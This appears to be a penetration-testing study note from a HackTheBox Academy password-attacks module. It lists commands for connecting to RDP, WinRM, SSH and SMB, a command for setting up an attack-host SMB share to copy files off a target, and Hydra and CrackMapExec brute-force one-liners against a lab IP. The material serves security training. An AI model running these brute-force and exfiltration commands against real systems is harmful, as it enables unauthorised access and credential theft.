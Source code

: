 # Password Attacks

<figure><img src=".gitbook/assets/Untitled (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Network Services**

| Command                                                                                          | Description                                                                                                                                                            |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:\<ip> /u:htb-student /p:HTB\_@cademy\_stdnt!                                         | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                                                  |
| evil-winrm -i \<ip> -u user -p password                                                          | Uses Evil-WinRM to establish a Powershell session with a target.                                                                                                       |
| ssh user@\<ip>                                                                                   | Uses SSH to connect to a target using a specified user.                                                                                                                |
| smbclient -U user \\\\\\\\\<ip>\\\SHARENAME                                                      | Uses smbclient to connect to an SMB share using a specified user.                                                                                                      |
| python3 [smbserver.py](http://smbserver.py) -smb2support CompData /home/\<nameofuser>/Documents/ | Uses [smbserver.py](http://smbserver.py) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

* `CrackMapExec` (no longer maintained) `netexec` is recommended
  * `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>` `crackmapexec winrm 10.129.42.197 -u user.list -p password.list` to get username and password
  * `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares` to view available shares and what privileges we have
* **`Evil-WinRM` communicate with `winrm` service**
  * `evil-winrm -i <target-IP> -u <username> -p <password` if credentials are correct, terminal session is initialized using PowerShell Remoting Protocol (MS-PSRP)
* `Hydra` brute forcing tool
  * `hydra -L user.list -P password.list ssh://10.129.42.197`
  * `hydra -L user.list -P password.list rdp://10.129.42.197`
  * `hydra -L user.list -P password.list smb://10.129.42.197`

